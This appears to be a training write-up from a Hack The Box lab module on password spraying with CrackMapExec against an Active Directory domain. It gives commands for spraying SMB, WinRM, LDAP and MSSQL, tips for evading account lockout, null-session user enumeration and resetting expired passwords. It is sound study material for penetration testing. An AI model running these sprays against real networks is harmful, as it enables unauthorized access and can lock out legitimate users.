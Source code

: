 ## Password Spraying 

We found a list of users abusing the **NULL Session** flaw. We now need to find a valid password to gain a foothold in the domain. If we do not have a proper list of users, or the target is not vulnerable to a **NULL Session** attack, we will need another way to find valid usernames, like OSINT (i.e., hunting on LinkedIn), brute-forcing with a large username list and Kerbrute, physical recon, etc. In this section, we will learn how to find a valid set of credentials by testing authentication against a set of targets once we have a list of usernames. 


### Creating a Password List 


We do not know these users' passwords, but what we know is the password policy. We can build a custom wordlist of common passwords such as **Welcome1 and Password123**, the current month with the year at the end, the company name or the domain name, and apply different mutations. To learn more about password mutations, check out the Academy module [Password Attacks](https://academy.hackthebox.com/module/details/147/). Let's use the domain name as the password with a capital letter, a number, and an exclamation mark at the end: 



#### Password List & User List 


![Password Spraying](/Password-Spraying/images/user-pass-list.png) 

- Now we need to select the protocol and the target and use the option **-u to provide a username(s)** or file(s) containing usernames and the option **-p to provide the password(s)** or file(s) containing passwords. 
- Let's see some examples using the SMB protocol: 


1. Password Attack with a File with Usernames and a Single Password 
2. Password Attack with a List of Usernames and a Single Password
3. Password Attack with a List of Usernames and Two Passwords
4. Password Attack Continue on Success
5. Password Attack with a List of Usernames and a Password List

```

$ crackmapexec smb 10.129.204.177 -u users.txt -p Inlanefreight01! 

$ crackmapexec smb 10.129.204.177 -u noemi david grace carlos -p Inlanefreight01! 

$ crackmapexec smb 10.129.204.177 -u noemi david grace carlos -p Inlanefreight01! Inlanefreight02! 

$ crackmapexec smb 10.129.204.177 -u users.txt -p Inlanefreight01! Inlanefreight02! --continue-on-success 

$ crackmapexec smb 10.129.204.177 -u users.txt -p passwords.txt 


```


![Password Spraying](/Password-Spraying/images/spray.png) 

![Password Spraying](/Password-Spraying/images/spray-1.png) 

![Password Spraying](/Password-Spraying/images/spray-2.png) 


### Checking One user Equal to One Password with a Wordlist 


Another great feature of CME is if we know each user's password, and we want to test if they are still valid. For that purpose, use the **option --no-bruteforce.** This option will use the 1st user with the 1st password, the 2nd user with the 2nd password, and so on. 

- Disable Bruteforce 

![Password Spraying](/Password-Spraying/images/brute.png) 


### Testing Local Accounts 

- In case we would like to test a **local account instead of a domain account**, we can use the **--local-auth option** in CrackMapExec: 

#### Password Spraying Local Accounts 

`$ crackmapexec smb 10.129.204.177 -u Administrator -p Password@123 --local-auth `


![Password Spraying](/Password-Spraying/images/local.png) 


### Account Lockout 

- Be careful when performing Password Spraying. We need to ensure the value: **Account Lockout Threshold is set to None.** 
- If there is a value (usually 5), be careful with the number of attempts we try on each account and observe the window in which the counter is reset to 0 (typically 30 minutes). 
- Otherwise, there is a risk that we lock all accounts in the domain for 30 minutes or more (check the Locked Account Duration for how long this is). 
- Occasionally a domain password policy will be set to require an administrator to manually unlock accounts which could create an even bigger issue if we lock out one or more accounts with careless Password Spraying. 
- If you already have a user account, you can query its **Bad-Pwd-Count attribute**, which measures the number of times the user tried to log on to the account using an incorrect password. 


### Query Bad Password Count 

`$ crackmapexec smb 10.129.204.177 --users -u grace -p Inlanefreight01! `

![Password Spraying](/Password-Spraying/images/query.png) 

### Account Status


- Depending on the reason, for example, 
- **STATUS_INVALID_LOGON_HOURS or STATUS_INVALID_WORKSTATION** may be a good idea to try **another workstation or another time.** 
- In the case of the message **STATUS_PASSWORD_MUST_CHANGE**, we can change the user's password using [Impacket smbpasswd](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbpasswd.py) like: **smbpasswd -r domain -U user.** 


### Changing Password for an Account with Status PASSWORD_MUST_CHANGE 

```

$ crackmapexec smb 10.129.204.177 -u julio peter -p Inlanefreight01! 

$ smb -r 10.129.204.177 -U peter

Old SMB password:
New SMB password:Griffin3
Retype new SMB password:Griffin3

$ crackmapexec smb 10.129.204.177 -u peter -p Griffin3 

```

![Password Spraying](/Password-Spraying/images/change.png) 

![Password Spraying](/Password-Spraying/images/change-1.png) 


### WinRM - Password Spraying 

```

$ crackmapexec smb 10.129.204.177 -u userfound.txt -p passfound.txt --no-bruteforce --continue-on-success 

$ crackmapexec winrm 10.127.204.177 -u userfound.txt -p passfound.txt --no-bruteforce --continue-on-success 

```

![Password Spraying](/Password-Spraying/images/winrm.png) 

- After changing peter's password to #!SpacesNotTabs1 we can now sucessfully login via winrm. 

- We can execute commands on the system with the account Peter, who has local admin rights. We will cover more about this in the section [Command Execution](https://academy.hackthebox.com/module/84/section/812). 


### LDAP - Password Spraying 

- When doing Password Spraying against LDAP protocol, we need to use the FQDN otherwise, we will receive an error: 

#### Error when using the IP w LDAP 

- We have two options to solve this issue: configure our attack host to use the domain name server (DNS) or configure the KDC FQDN in our /etc/hosts file. Let's go with the second option and add the FQDN to our /etc/hosts file: 

![Password Spraying](/Password-Spraying/images/ldap-error.png) 

![Password Spraying](/Password-Spraying/images/head.png) 

![Password Spraying](/Password-Spraying/images/ldap.png) 


### MSSQL Authentication Mechanisms 

- We can have 3 types of users to authenticate to MSSQL. 

1. Active Directory Account
2. Local Windows Account
3. SQL Account 

- For an Active Directory account, we need to specify the domain name: 


### Password Spray - Active Directory Account 

```

$ crackmapexec mssql 10.129.85.177 -u julio grace jorge -p Inlanefreight01! -d inlanefreight.htb 
$ crackmapexec mssql 10.129.78.7 -u julio grace -p Inlanefreight01! -d .
$ crackmapexec mssql 10.129.78.7 -u julio grace -p Inlanefreight01! --local-auth
$ crackmapexec smb 10.129.78.7 -u '' -p '' --users
$ crackmapexec mssql 10.129.78.7 -u newusers.txt -p newpasswords.txt --local-auth --continue-on-success

```

![Password Spraying](/Password-Spraying/images/ad.png) 

![Password Spraying](/Password-Spraying/images/mssql.png) 

![Password Spraying](/Password-Spraying/images/mssql-1.png) 
